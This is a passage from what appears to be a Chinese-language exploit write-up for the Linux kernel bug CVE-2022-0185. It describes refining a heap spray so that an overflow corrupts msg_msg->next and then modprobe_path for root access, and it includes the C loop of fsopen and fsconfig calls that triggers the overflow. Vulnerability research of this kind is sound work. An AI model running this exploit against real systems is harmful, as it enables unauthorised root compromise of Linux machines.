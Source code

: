 #### 3-5 改进exploit

**改进提权方式**：原先只是给 `/bin/su` 加了个suid，现在直接提权。

**改进堆喷策略**：原先在篡改 `msg_msg->next` 时，每次尝试，都先申请1个漏洞对象，然后再申请1个` msg_msg` 对象，很难碰撞到 `msg_msg` 恰好在漏洞对象后面的情况。现在我一次申请10个漏洞对象，然后再申请1个 `msg_msg` 对象，10次溢出总有一次能成功篡改  `msg_msg->next` 吧。果然，只要几次尝试就能成功篡改 `modprobe_path`：

```c
    for (int i = 0; i < 0xa; i++)
    {
        fdv[i] = fsopen("ext4", 0);
        if (fdv[i] < 0) 
        {
            puts("Opening");
            exit(-1);
        }
        for (int j = 0; j < 117; j++) 
            fsconfig(fdv[i], FSCONFIG_SET_STRING, "\x00", pat, 0);
    }
```

![1-2-succeed](/images/posts/CVE-2022-0185/1-2-succeed.png)
